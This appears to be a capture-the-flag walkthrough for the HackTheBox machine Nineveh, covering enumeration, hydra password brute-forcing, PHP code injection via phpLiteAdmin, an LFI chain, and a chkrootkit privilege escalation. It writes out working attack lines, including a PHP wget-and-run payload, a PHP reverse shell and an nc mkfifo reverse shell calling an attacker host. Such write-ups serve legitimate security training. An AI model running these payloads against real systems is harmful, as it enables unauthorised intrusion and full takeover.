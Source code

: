 ```yaml
---
layout: post
title: "HTB-Nineveh"
categories: HTB-Walkthrough
---
```


![nineveh](/assets/img/nineveh.png)


Nineveh is an interesting box from HTB, and very much an OSCP-like box.

Nmap first...

`nmap -sV -Pn --min-rate 10000 -sC |tee -a nin.txt`

```

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

```


It seems to be good practice to add found domain names to our /etc/hosts file; it can often reveal
pages that, without it, do not appear. So before we start enumerating the two web ports...

`nano /etc/hosts` , type in the ip address...then press tab, and enter the domain name...like this:

```

10.10.10.43	nineveh.htb

```

You can add more domain names if you find them, to the same line; just have a space between them.

First we'll try port 80...

It looks like we'll need to brute-force directories to move forwards...

```

gobuster dir -u http://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh

```

gobuster finds `/department` which is a web login page, and in the source we find two possible usernames: `admin` and `amrois`.

We can use a hydra dictionary attack with these to get valid creds.

make user.txt containing the found names...
trying a few of the usual suspects manually, I work out that the page reveals valid/invalid usernames.
admin is valid
amrois is invalid

so I wont be needing user.txt after all...
I've chosen to use the rockyou.txt password file, 



```

hydra 10.10.10.43 -l admin -P /root/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V


```

I love it when it works...what a tool!

```

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-20 00:22:07

```

After logging in we find that this too is under construction, but there is a link to notes.txt

```

Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois


```

So we need to find a secret folder? which may relate to a database interface?

Trying /secret fails, but /db comes up trumps with a phpadminlite 1.9 login page.

We just need a password for this, hydra again is the best idea.

We can use 'whatever' as username ...hydra knows this is a dummy id.

```

hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."

```
Yay!!!

```

[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123

```

Should have probably tried some manually first, since that is one everyone tries...no matter!

`searchsploit phpliteadmin 1.9`

```

-------------------------------------------------- ----------------------------------------
 Exploit Title                                    |  Path
                                                  | (/usr/share/exploitdb/)
-------------------------------------------------- ----------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection    | exploits/php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities     | exploits/php/webapps/39714.txt
-------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

Checking out these files we find a method to use.


create boo.php database
create table : newtable  1 field
create field : somefiled  TEXT 
default value: <?php system("wget http://10.10.14.19/evil.txt -O /tmp/evil.php;php /tmp/evil.php"); ?>



make evil.txt file containing....

`<?php $sock=fsockopen("10.10.14.19",6969);exec("/bin/sh -i <&3 >&3 2>&3");?>`


start a webserver and nc listener....
`python3 -m http.server 80`


`nc -nlvp 6969`


execute the lfi with....(it takes quite some experimentation to get this from the initial lfi address..)

initial lfi indicator
`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd`


~~~~~
eventual working exploit lfi...

`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/boo.php`

###################################

<h3>Privesc to root...</h3>

There appears to be report folder in amrois home/folder  ran by root via chkrootkit
 it calls `/tmp/update`


research chrootkit local priv esc.....

all we have to do (because it checks for updates..)
...is exploit the fact it looks in /tmp folder for 'update'


... so we make file `/tmp/update` containing nc reverse shell (old nc)

A favourite trick of writing files on targets,that I've picked up, is using cat. 
It's handy when text editors are unavailable or problematic to use...but I've come to use it frequently; 
initially because I wanted to remember it, but I continue to do so because I think its a neat trick.

```

cat >update<<_EOF
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 1337 >/tmp/f
_EOF

```

`chmod +x update` to make it executable.

Send a copy to /tmp `cp update /tmp/`

...set listener to 1337

######################

```

root@kali:~/HTB/retired/nineveh# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.43] 44776
/bin/sh: 0: can't access tty; job control turned off
whoami
root                                                                                                               
id                                                                                                               
uid=0(root) gid=0(root) groups=0(root)                                                                             
cat /root/root.txt                                                                                               
8axxxxxxxxxxxxxxxxxxxxxxxxxxxx3a                                                                                   
ls /home                                                                                                         
amrois                                                                                                             
cat /home/amrois/user.txt                                                                                        
82xxxxxxxxxxxxxxxxxxxxxxxxxxxxc8      

```
:)





